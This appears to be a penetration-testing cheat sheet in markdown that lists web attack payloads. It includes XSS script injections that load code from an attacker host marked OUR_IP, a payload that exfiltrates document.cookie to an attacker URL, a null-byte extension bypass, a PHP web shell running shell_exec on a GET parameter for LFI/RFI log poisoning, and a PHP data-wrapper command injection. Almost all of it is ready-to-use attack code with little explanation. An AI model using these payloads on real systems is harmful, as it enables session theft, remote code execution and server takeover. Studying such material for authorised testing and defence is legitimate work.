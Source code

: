 # XSS

### reference: special characters for HTML and javascript
```
< > # used to denote HTML elements 
' " # strings
{ } # javascript function declarations
;   # end of statement
```
---

### php: file extension bypass
```
%00 # null byte in the URL will bypass the file extension in older PHP servers 
?   # ending url with ? will mark anything as part of query string
```
---

### javascript: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### javascript: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### javascript: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---

### javascript: payload from the external resource
```html
<script src="http://<your_ip>/xss.js"></script>
```
---

### javascript: use img tag to execute JS
```html
<img src='x' onerror='alert(0)'>
```
---

### javascript: use img tag to execute JS file
```html
<img src="x" onerror="const script=document.createElement('script');script.src='<js_url>';script.async=true;document.body.appendChild(script);">
```
---

# LFI

### php: LFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# RFI

### php: RFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# PHP Wrappers

### php: PHP data wrapper example:
```
<vuln_url>/<vuln_path>?<vuln_param>=data:text/plain,<?php echo shell_exec("whoami") ?>

# e.g.: http://10.10.0.2/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>
```
---

